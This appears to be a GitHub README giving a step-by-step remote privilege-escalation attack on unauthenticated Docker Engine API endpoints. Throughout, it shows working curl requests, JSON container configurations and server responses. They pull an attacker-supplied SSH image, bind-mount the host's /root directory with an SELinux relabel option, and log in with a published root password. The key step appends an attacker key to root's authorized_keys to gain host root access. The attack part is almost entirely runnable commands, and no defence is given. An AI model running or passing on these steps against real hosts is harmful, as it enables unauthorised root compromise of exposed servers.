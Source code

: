﻿
# Docker API Privilege Escalation
***

This document has the objective to explain a simple way to remotely make a privilege escalation in a Docker, using it's own Engine API service. 

During my analisys routine I manage to successfully make an attack, so I decided to share freely. 

I`ve made an image available containing a SSH service enabled in the  [Docker Hub](https://hub.docker.com/r/pype/privsshd/) to help in the attack (The image available it's huge, more than 200MB because of the Ubuntu base image. As soon as possible I will made available a smaller image).

PS: This attack explore a option available in the docker, without the need to utilize memory exploitation or similar way (As usually used to escape the container).
**PS2: This is only ONE of many ways to explore an server utilizing the docker API service.** If during my analysis I find others explore methods, I will post in this repository.

Any suggestions to improve the attack or to protect yourself, I'm available to listen to all of it and add to this document if appropriate.


## Engine API

*"The Engine API is an HTTP API served by Docker Engine. It is the API the Docker client uses to communicate with the Engine, so everything the Docker client can do can be done with the API."*

**By default this service don't use any authentication**, but this resource it's made available by the platform.

- [Docker Engine API](https://docs.docker.com/engine/api/v1.32/)
- [Authentication](https://docs.docker.com/engine/api/v1.32/#section/Authentication)

During the attack, we are going to utilize the parameters provided by the platform so this way we can explore the system and obtain privileged internal access.

## Exploitation
The main focus of the attack it's to be able to inject our public key inside the file *"authorized_keys"* from the root user in the server!


The exploration consist in six parts:

1. **Push the image in server**
2. **Configure a container with our image**
3. **Start the container**
4. **Connect to container SSH**
5. **Import public key in .ssh/authorized_keys in root directory**
6. **Finaly connect to SSH server with root access**

***

* **Push image in server**

The selected image for the attack need to have some kind the shell remote service available in the start, so this way we can connect to the container inside the server.

```bash
curl -XPOST "http://victim/images/create?fromImage=pype/privsshd"

< HTTP/1.1 200 OK
< Content-Type: application/json
< Server: Docker/1.12.6 (linux)
< Date: Sat, 06 Jan 2018 15:41:46 GMT
< Transfer-Encoding: chunked
< 
...
{"status":"Status: Image is up to date for docker.io/pype/privsshd:latest"}
```
In the example above I used the option to create an image from the official repository. There is [other methods](https://docs.docker.com/engine/api/v1.24/#32-images) to execute the same operation.

pype/privsshd -  The Image that I've made available to help in the documentation of the attack. 

* **Configure a container with our image**

For we to be able to inject our public key inside the file .ssh/authorized_key, we need access to the root directory in the Docker Server. For this we are going to utilize the option "Binds", this way we can select the volume of what is going to be shared between the server and our container. (Remember to configure the read and write option)

**SELINUX  *"Bypass"***

The Docker provides a mounting option capable of modify the SELINUX file or directory label shared with the container. With this option, it’s possible to mount privileged directory inside of our container (E.g.: /root/;/etc;/bin …).

We can send this option via API too, this way we can work around the SELINUX remotely .

 *"This affects the file or directory on the host machine itself and can have consequences outside of the scope of Docker."*

```json
"Binds":[  
      "/root/:/root/:rw,z"
      ]
``` 

Mais informações: [Configure-the-selinux-label](https://docs.docker.com/engine/admin/volumes/bind-mounts/#configure-the-selinux-label)


Supposing that our target server already has the port number 22 busy by it's own SSH service, we have to point another outgoing port for our connection with the container, we are going to configure the option "PortBindings" with "HostPort" in another port.
```json
{  
   "Image":"pype/privsshd",
   "Binds":[  
      "/root/:/root/:rw,z"
   ],
   "PortBindings":{  
      "22/tcp":[  
         {  
            "HostIp":"",
            "HostPort":"2233"
         }
      ]
   }
}
```
JSON it's the only format accepted by the platform, therefore configure the Content-Type of your requisition to this type of language.

```bash
curl -H "Content-Type: application/json" -d '{"Image":"pype/privsshd", "Binds": ["/root/:/root/:rw,z"],"PortBindings":{"22/tcp":[{"HostIp":"","HostPort":"2233"}]}}' -XPOST "http://victim/containers/create"

< HTTP/1.1 201 Created
< Content-Type: application/json
< Server: Docker/1.12.6 (linux)
< Date: Sat, 06 Jan 2018 16:03:34 GMT
< Content-Length: 90
< 
{"Id":"5a3c7f18d202f62...4789e781132495781f","Warnings":null}
```
If everything worked out, the requisition will return an ID and this will be the your container identifier 

* **Start the container**

Use the Identifier to start your container remotely.

```bash
curl -XPOST "http://victim/containers/5a3c7f18d202f62...4789e781132495781f/start" -v 

< HTTP/1.1 204 No Content
< Server: Docker/1.12.6 (linux)
< Date: Sat, 06 Jan 2018 22:29:46 GMT

```
Verify if the service was started with success in the target server.

```bash
~ » nc victim 2233
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.2
```

* **Connect to container SSH**

```bash
~ » ssh root@victim -p2233
root@victim password: 
root@5a3c7f18d202:~#
```

If you utilized my image **privsshd**, the root password it's: *screencast*.


* **Import public key in .ssh/authorized_keys in root directory**

Now you are free to inject your public key and...

```bash
root@5a3c7f18d202:~# ls .ssh/
authorized_keys  id_rsa  id_rsa.pub  known_hosts
root@5a3c7f18d202:~# echo "ssh-rsa AAAAB3NzaC1yc2EAAAAD.." >> .ssh/authorized_keys
``` 
* **Finaly connect to SSH server with root access**

```bash
~ » ssh root@victim -i key.rsa
[root@docker-server ~]# id
uid=0(root) gid=0(root) groups=0(root) 
[root@docker-server ~]# docker --version
Docker version 1.12.6, build ae7d637/1.12.6
```

Now you have privileged access inside the remote server. :)

***
![](x.gif)
***
References:

http://www.agarri.fr/kom/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html
https://docs.docker.com/engine/api/v1.24
https://www.securusglobal.com/community/2014/03/17/how-i-got-root-with-sudo/



